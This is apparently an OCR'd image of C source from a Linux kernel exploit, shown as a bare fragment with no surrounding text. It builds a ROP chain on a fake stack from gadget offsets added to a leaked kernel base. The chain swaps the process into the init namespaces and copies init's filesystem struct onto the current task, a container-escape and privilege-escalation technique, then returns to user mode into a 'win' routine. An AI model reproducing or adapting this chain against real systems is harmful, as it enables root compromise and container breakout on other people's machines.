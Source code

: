 ```c

		// task = find_task_by_vpid(1)
		*(ul*) &fake_stack[0x10a0] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x10a8] =  1;
		*(ul*) &fake_stack[0x10b0] = FIND_TASK_BY_VPID +  *kbase;

		// switch_task_namespaces(task, init_nsproxy)
		*(ul*) &fake_stack[0x10b8] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x10c0] = (ul) &fake_stack[0x10e8];
		*(ul*) &fake_stack[0x10c8] = POP_RCX +  *kbase;
		*(ul*) &fake_stack[0x10d0] =  8;
		*(ul*) &fake_stack[0x10d8] = MOV_QWORD_RDI_RAX +  *kbase;
		*(ul*) &fake_stack[0x10e0] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x10e8] =  0x6969696969696969;
		*(ul*) &fake_stack[0x10f0] = POP_RSI +  *kbase;
		*(ul*) &fake_stack[0x10f8] = INIT_NSPROXY +  *kbase;
		*(ul*) &fake_stack[0x1100] = SWITCH_TASK_NAMESPACES +  *kbase;

		// new_fs = copy_fs_struct(init_fs)
		*(ul*) &fake_stack[0x1108] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x1110] = INIT_FS +  *kbase;
		*(ul*) &fake_stack[0x1118] = COPY_FS_STRUCT +  *kbase;

		// save "somewhere" new_fs
		*(ul*) &fake_stack[0x1120] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x1128] = (ul) &fake_stack[0x1f00];
		*(ul*) &fake_stack[0x1130] = POP_RCX +  *kbase;
		*(ul*) &fake_stack[0x1138] =  8;
		*(ul*) &fake_stack[0x1140] = MOV_QWORD_RDI_RAX +  *kbase;

		// task = find_task_by_vpid(getpid())
		*(ul*) &fake_stack[0x1148] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x1150] = (ul) parent_child;
		*(ul*) &fake_stack[0x1158] = FIND_TASK_BY_VPID +  *kbase;

		// current->fs = newfs
		*(ul*) &fake_stack[0x1160] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x1168] = (ul) &fake_stack[0x11b8];
		*(ul*) &fake_stack[0x1170] = POP_RCX +  *kbase;
		*(ul*) &fake_stack[0x1178] =  8;
		*(ul*) &fake_stack[0x1180] = MOV_QWORD_RDI_RAX +  *kbase;
		*(ul*) &fake_stack[0x1188] = POP_RSI +  *kbase;
		*(ul*) &fake_stack[0x1190] =  0x760;
		*(ul*) &fake_stack[0x1198] = POP_RDX +  *kbase;
		*(ul*) &fake_stack[0x11a0] = (ul) &fake_stack[0x11b8] -  0x760  -  1;
		*(ul*) &fake_stack[0x11a8] = ADD_DWORD_RSIRDX1_ESI +  *kbase;
		*(ul*) &fake_stack[0x11b0] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x11b8] =  0x6969696969696969;
		*(ul*) &fake_stack[0x11c0] = POP_RSI +  *kbase;
		*(ul*) &fake_stack[0x11c8] = (ul) &fake_stack[0x1f00];
		*(ul*) &fake_stack[0x11d0] = POP_RCX +  *kbase;
		*(ul*) &fake_stack[0x11d8] =  8;
		*(ul*) &fake_stack[0x11e0] = REP_MOVS_ALTERNATIVE +  *kbase;

		// ret2user
		*(ul*) &fake_stack[0x11e8] = SWAPGS_AND_SHIT +  *kbase;
		*(ul*) &fake_stack[0x11f0] =  0;
		*(ul*) &fake_stack[0x11f8] =  0;
		*(ul*) &fake_stack[0x1200] = (ul) &win;
		*(ul*) &fake_stack[0x1208] =  0x33;
		*(ul*) &fake_stack[0x1210] =  0x206;
		*(ul*) &fake_stack[0x1218] = rsp;
		*(ul*) &fake_stack[0x1220] =  0x2b;
```